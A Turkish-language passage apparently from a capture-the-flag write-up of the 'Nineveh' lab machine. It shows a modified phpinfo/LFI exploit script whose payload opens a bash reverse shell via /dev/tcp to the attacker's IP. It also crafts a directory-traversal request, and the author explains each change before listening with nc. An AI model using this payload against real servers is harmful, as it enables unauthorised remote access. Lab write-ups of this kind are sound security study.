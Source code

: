 Şimdi, üstteki **setup** fonksiyonunda bir sürü şeyi değiştireceğim.

```
def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r <?php system("bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");?>\r""" % (TAG, local_ip, local_port)
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=""" + phpsessid + """; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /department/manage.php?notes=/ninevehNotes/..%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Cookie: PHPSESSID=""" + phpsessid + """\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
```


Aşağıdaki değişiklikleri yaptım:

- Payload'u, yukarıda belirtilen IP ve port’a geri bağlantı verecek şekilde değiştirdim.
- **REQ1**'deki POST yolunu, **/phpinfo.php** yerine Nineveh ile uyumlu olması için **/info.php** olarak değiştirdim.
- **LFIREQ**'deki POST yolunu, Nineveh LFI'si ile uyumlu olacak şekilde değiştirdim.
- LFI'ye erişebilmek için **LFIREQ**'ye bir **PHPSESSID** çerezi ekledim.
- Diğer değiştirmem gereken şey, yanıt içinde [tmp_name] => arayan iki yerdi. PHP artık bunu **[tmp_name] =>** olarak HTML encode ediyor, bu yüzden bunu düzeltmem gerekiyor. İlginç bir şekilde, makalede de encode edilmiş sürümü var, bu da scriptte bir hata olabilir.


### Shell

Bu değişiklikler yapıldığında, komut dosyasını bir nc listener beklerken çalıştırabilirim:
